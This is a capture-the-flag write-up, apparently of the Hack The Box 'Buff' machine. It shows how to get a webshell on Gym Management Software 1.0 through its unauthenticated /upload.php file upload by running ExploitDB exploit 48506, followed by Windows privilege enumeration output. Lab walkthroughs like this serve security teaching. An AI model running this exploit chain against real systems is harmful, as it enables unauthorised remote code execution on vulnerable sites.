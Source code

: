 # unauthenticated remote code execution (RCE)

From the `Contact` page, I was able to enumerate that this gym website was `mrb3n's Bro Hut` (also says that on the tabs) running on Gym Management Software 1.0

The first search result was an unauthenticated RCE vulnerability on [ExploitDB](https://www.exploit-db.com/exploits/48506). The vulnerability lies in the `/upload.php` directory. There is an unauthenticated file upload that does not check for valid user sessions to upload files. This means that we can upload a malicious payload to get a reverse shell onto the system.

```
[tyco㉿4YE: ~/htb/buff/scans]$ python 48506.py http://10.10.10.198:8080/

/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and wil
l be removed in the next release.                                                                                     
            /\                                                                                                        
/vvvvvvvvvvvv \--------------------------------------,     
`^^^^^^^^^^^^ /============BOKU====================="      
            \/                        
                                                           
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

On Windows systems, this first things I do is run `whoami /all` and `systeminfo` to get what permissions the `shaun` user has, and enumerate the Windows version to see if there any vulnerabilities.

```
C:\xampp\htdocs\gym\upload> whoami /all

USER INFORMATION                                  
----------------

User Name  SID                                           
========== ==============================================
buff\shaun S-1-5-21-2277156429-3381729605-2640630771-1001


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                     Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
```